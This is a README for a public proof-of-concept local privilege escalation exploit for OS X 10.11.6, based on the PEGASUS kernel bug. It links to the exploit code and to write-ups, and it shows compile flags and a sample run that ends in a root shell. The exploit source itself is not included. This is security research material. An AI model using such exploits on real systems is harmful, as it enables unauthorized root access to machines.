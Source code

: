 #Local privilege escalation for OS X 10.11.6 via PEGASUS

*  Exp: https://github.com/zhengmin1989/OS-X-10.11.6-Exp-via-PEGASUS


*  Write up:  
        1. Chinese Version: https://jaq.alibaba.com/community/art/show?articleid=531  
        2. English Version: https://jaq.alibaba.com/community/art/show?articleid=532  

 * by Min(Spark) Zheng (twitter@SparkZheng, weibo@蒸米spark)

 * Note:   
         1. If you want to test this exp, you should not install Security Update 2016-001 
            (like iOS 9.3.5 patch for PEGASUS).  
         2. I hardcoded a kernel address to calcuate kslide, it maybe different on your mac.  

 
 * Compile:  
   clang -framework IOKit -framework Foundation -framework CoreFoundation -m32 -Wl,-pagezero_size,0 -O3 exp.m lsym.m -o exp

 * Run the exp:  
    MacBookPro:PEGASUS zhengmin$ ./exp   
    getting kslide...  
    kslide=0x8e00000  
    building the rop chain...  
    exploit the kernel...  
    sh-3.2# whoami  
    root  
    sh-3.2# uname -a  
    Darwin MacBookPro 15.6.0 Darwin Kernel Version 15.6.0: Thu Jun 23 18:25:34 PDT 2016; root:xnu-3248.60.10~1/RELEASE_X86_64 x86_64  


 * Special thanks to proteas, qwertyoruiop, windknown, aimin pan, jingle, liangchen, qoobee, 
   cererdlong, eakerqiu, etc.
 
 * Reference:   
              1. http://blog.pangu.io/cve-2016-4655/  
              2. https://sektioneins.de/en/blog/16-09-02-pegasus-ios-kernel-vulnerability-explained.html  
              3. https://bazad.github.io/2016/05/mac-os-x-use-after-free/  
              4. https://github.com/kpwn/tpwn  
   
